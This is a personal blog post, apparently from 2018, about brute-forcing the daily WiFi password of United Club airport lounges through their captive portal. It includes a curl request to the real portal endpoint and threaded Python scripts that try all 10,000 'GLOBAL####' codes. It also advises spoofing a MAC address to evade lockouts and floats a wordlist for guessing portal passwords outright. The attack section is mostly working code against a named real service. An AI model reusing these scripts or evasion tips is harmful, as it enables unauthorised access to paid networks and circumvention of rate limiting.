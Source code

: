 ```yaml
---
title: "Bruteforcing United Club's WiFi password"
date: 2018-10-09 16:21:49
header-img: "/images/united-pass.png"
---
```

<link rel="stylesheet" href="/stylesheets/main.css"/>

I'm a frequent traveler and stay in lounges fairly often (shoutout [/r/churning](https://reddit.com/r/churning)!). Most lounges don't use traditional [WiFi Authentication](https://tools.ietf.org/html/rfc4764) - instead they rely on some form of captive gate. This allows them to provide user content, collect a more information on the users of the service, and rotate the password easily.

Every time I've been to a United Club lounge, the password has been of the form `GLOBAL####`, with a random last 4 digits. This only creates 10,000 unique possible passwords, which is a fairly small search space. Although I had the password in front of me I wanted to see if I could figure it out using other means.

<img src="/images/united-signin.png">
<p class="footnote">United Club captive page</p>


## Intercepting Network Requests

Chrome trivializes intercepting network requests. Normally I'd man-in-the-middle myself using Burp Suite or Charle's Proxy, but since this was just a site we can use the built in devtools network tab. 

Once submitting a random password the route shows up in devtools.

<img src="/images/united-network.png">
<p class="footnote">United Club password attempt route</p>

It looks like it'll return a `302` status if the password is incorrect and (I assumed) a `2XX` when it's correct. Devtools has a handy "Copy as Curl" function that allows you to copy any network request as a curl request just by right-clicking on it. 

<img src="/images/copyascurl.png">
<p class="footnote">Devtools Copy as Curl functionality</p>

```bash
curl 'https://ualwifi.united.com/auth/index.html/u' \
-H 'Connection: keep-alive' \
-H 'Pragma: no-cache' \
-H 'Cache-Control: no-cache' \
-H 'Origin: https://ualwifi.united.com' \
-H 'Upgrade-Insecure-Requests: 1' \
-H 'DNT: 1' \
-H 'Content-Type: application/x-www-form-urlencoded' \
-H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.45 Safari/537.36' \
-H 'Sec-Metadata: cause="user-activated", destination="document", site="same-origin"' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8' \
-H 'Referer: https://ualwifi.united.com/upload/custom/unitedclub_cp/login_united_club.html?errmsg=Authentication%20failed' \
-H 'Accept-Encoding: gzip, deflate, br' \
-H 'Accept-Language: en-US,en;q=0.9,it;q=0.8' \
-H 'Cookie: newHP=true; loc=refer=https://www.united.com/en/US/loyalty/account/activity; Locale=POS=US&Lang=en&UMID=6992bfc2-1acf-448e-8b3f-93f38d92a944&POSCODE=L; SearchInput={"Origin":"YYZ","Destination":"WAS","Trips":null,"DepartDate":"Oct 05, 2018","ReturnDate":"Oct 08, 2018","searchTypeMain":"roundTrip","realSearchTypeMain":"roundTrip","awardTravel":"False","cabinType":"econ","awardCabinType":"awardEcon","numOfAdults":"1","numOfSeniors":"0","numOfChildren04":"0","numOfChildren03":"0","numOfChildren02":"0","numOfChildren01":"0","numOfInfants":"0","numOfLapInfants":"0","numberOfTravelers":"1","isFlexible":false,"FlexibleDays":3,"FlexibleDate":"Oct 05, 2018","isNonStop":false};  D3Name=; D3Locator=; CPsession=http%253A%252F%252Fcaptive%252Eapple%252Ecom%252Fhotspot%2Ddetect%252Ehtml%26ip%3D172%2E26%2E15%2E169' \
--data 'user=GLOBAL1111&password=NULL&cmd=authenticate&Login=Sign+in' \
--compressed -v
```
<p class="footnote">Note: Session and User IDs removed</p>

Now that I had the curl request I could play around with the state and paremeters. It looks like the form is actually encoding the password as the username and the password as NULL.

As a sidenote, this **probably** means that any built in password bruteforcing checks with the library they're using *won't* work because we aren't trying the same username with a different password over and over again - we are just iterating over different usernames with the same password. I can't be sure of this but it 

Shell scripting is fine in a pinch but I wanted something more robust. There's a neat utility that'll convert a curl request to Python/Node/PHP [here](https://curl.trillworks.com). Now that I had python code that had valid state I could quickly iterate over all combinations.

```python
import requests

cookies = {
    'newHP': 'true',
    'loc': 'refer=https://www.united.com/en/US/loyalty/account/activity',
    'Locale': 'POS=US&Lang=en&UMID=6992bfc2-1acf-448e-8b3f-93f38d92a944&POSCODE=L',
    'SearchInput': '{"Origin":"YYZ","Destination":"WAS","Trips":null,"DepartDate":"Oct 05, 2018","ReturnDate":"Oct 08, 2018","searchTypeMain":"roundTrip","realSearchTypeMain":"roundTrip","awardTravel":"False","cabinType":"econ","awardCabinType":"awardEcon","numOfAdults":"1","numOfSeniors":"0","numOfChildren04":"0","numOfChildren03":"0","numOfChildren02":"0","numOfChildren01":"0","numOfInfants":"0","numOfLapInfants":"0","numberOfTravelers":"1","isFlexible":false,"FlexibleDays":3,"FlexibleDate":"Oct 05, 2018","isNonStop":false}',
    'D3Name': '',
    'D3Locator': '',
    'CPsession': 'http%253A%252F%252Fcaptive%252Eapple%252Ecom%252Fhotspot%2Ddetect%252Ehtml%26ip%3D172%2E26%2E15%2E169',
}

headers = {
    'Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
    'Origin': 'https://ualwifi.united.com',
    'Upgrade-Insecure-Requests': '1',
    'DNT': '1',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.45 Safari/537.36',
    'Sec-Metadata': 'cause="user-activated", destination="document", site="same-origin"',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
    'Referer': 'https://ualwifi.united.com/upload/custom/unitedclub_cp/login_united_club.html?errmsg=Authentication%20failed',
    'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'en-US,en;q=0.9,it;q=0.8',
}

data = {
  'user': 'GLOBAL1111',
  'password': 'NULL',
  'cmd': 'authenticate',
  'Login': 'Sign in'
}

response = requests.post('https://ualwifi.united.com/auth/index.html/u', headers=headers, cookies=cookies, data=data)
```

## Bruteforcing the login

Running the python above returns the exact same as the network request - a `302` redirect, indicating the passphrase was not correct.

I could write a quick wrapper to the request such that it would try all combinations 0000 to 9999.

```python
for i in range(10000):
	padding = "0" * (4 - len(str(i)))
	attempt = padding + str(i)
	data = {
	  'user': 'GLOBAL' + attempt,
	  'password': 'NULL',
	  'cmd': 'authenticate',
	  'Login': 'Sign in'
	}
	response = requests.post('https://ualwifi.united.com/auth/index.html/u', headers=headers, cookies=cookies, data=data)
	if response.status_code != 302:
		print('Valid passphrase found: GLOBAL%s' % attempt)
```

Unfortunately this was pretty slow - it would serialize the attempts, which would not allow an attempt to be made until the previous network request had returned. A little threading magic (and ratelimiting) and we'd be on our way.

```python
import threading 
import time

def brute_force_pass(attempt):
	data = {
	  'user': 'GLOBAL' + attempt,
	  'password': 'NULL',
	  'cmd': 'authenticate',
	  'Login': 'Sign in'
	}
	response = requests.post('https://ualwifi.united.com/auth/index.html/u', headers=headers, cookies=cookies, data=data)
	if response.status_code != 302:
		print('Valid passphrase found: GLOBAL%s' % attempt)

for i in range(10000):
	padding = "0" * (4 - len(str(i)))
	attempt = padding + str(i)
	threading.Thread(target=brute_force_pass, args=[attempt]).start()
	time.sleep(0.05) # sleep for 1/20th of a second so we don't start timing out or running out of sockets
```

Fortunately the United captive portal is running locally so the RTT is pretty low, which means that the server replies fairly quickly. At `0.05` seconds (plus overhead) per request we should be able to try the entire search space in just over 8 minutes. 

I left to go grab a rum and coke and by the time I came back it had finished.

<img src="/images/united-pass.png">
<p class="footnote">Daily United Club password</p>

And there you have it! Today's WiFi password is `GLOBAL9980`.

The best part about it was that the valid attempt automatically whitelisted that mac address - I didn't even need to type the password in myself.

## Preventing brute force attacks

I was worried I'd run into ratelimiting or start getting `429`'s from United. Fortunately that never happend, but I've run into similar services that will lock you out. A good way around this is to spoof your mac address - at that point, there is no way for a router to recognize that it's your device that has made all these attempts, and will allow you to keep doing so uninhibited. 

As an aside spoofing your mac address on the 2018 MacBook Pro's seems to not work any more, so if anyone knows how to do it I'd be very grateful (`sudo ifconfig en0 ether aa:bb:cc:dd:ee:ff` no longer works).

## Conclusions

This also would've been possible to do with BurpSuite and setting up Intruder, but I didn't really want to go to that effort. This was a quick exercise in seeing how easy this would be if I was standing *outside* the lounge, without access to the password. Any online service that uses a captive portal is susceptible to this attack. One of these days I'm planning on building an airport-centric wordlist (i.e. Lounge, WiFi, &lt;airport name&gt;, &lt;airline name&gt;, current year, etc.) so that bruteforcing *without* any preexisting knowledge also becomes feasible.

Overall fairly successful for 10 minutes of work!

Comments can be found on reddit, [here](https://www.reddit.com/r/jonluca/comments/9mvg4s/bruteforcing_united_clubs_wifi_password/?)